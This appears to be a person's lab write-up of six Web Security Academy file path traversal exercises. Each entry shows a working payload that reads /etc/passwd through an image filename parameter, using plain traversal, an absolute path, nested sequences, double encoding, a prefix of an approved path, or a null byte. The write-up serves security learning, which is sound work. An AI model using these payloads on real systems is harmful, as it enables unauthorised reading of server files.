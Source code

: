 # File path traversal, simple case
1. Load site
2. Inspecting web root HTML source reveals the following URLS in the page
```html
<img src="/image?filename=45.jpg">
```
3. Request the following URL to retrieve `/etc/passwd`
```
https://0ae4000d03b8d8f1805e94d100e10061.web-security-academy.net/image?filename=../../../../etc/passwd
```
# File path traversal, traversal sequences blocked with absolute path bypass
1. Load site
2. Inspecting web root HTML source reveals the following URLs in the page
```html
<img src="/image?filename=45.jpg">
```
3. Make GET request using absolute path to `/etc/passwd`
```
/image?filename=/etc/passwd
```
# File path traversal, traversal sequences stripped non-recursively
1. Load site
2. Inspecting web root HTML source reveals the following URLs in the page
```html
<img src="/image?filename=45.jpg">
```
3. Make GET request to bypass non-recursive filtering
```
/image?filename=....//....//....//etc/passwd
```
# File path traversal, traversal sequences stripped with superfluous URL decode
1. Load site
2. Inspecting web root HTML source reveals the following URLs in the page
```html
<img src="/image?filename=45.jpg">
```
3. Make GET request double URL encoding the payload (I used Hackvertor extension on the payload)
```
/image?filename=<@urlencode><@urlencode>../../../</@urlencode></@urlencode>etc/passwd
```
# File path traversal, validation of start of path
1. Load site
2. Inspecting web root HTML source reveals the following URLs in the page
```html
<img src="/image?filename=45.jpg">
```
3. Make GET request providing the approved path first, then traversing to desired location
```
/image?filename=/var/www/images/../../../../../../../etc/passwd
```
# File path traversal, validation of file extension with null byte bypass
1. Load site
2. Inspecting web root HTML source reveals the following URLs in the page
```html
<img src="/image?filename=45.jpg">
```
3. Make GET request providing the approved file extension but terminating the payload just before the valid extension with a null byte
```
/image?filename=../../../etc/passwd%00.jpg
```

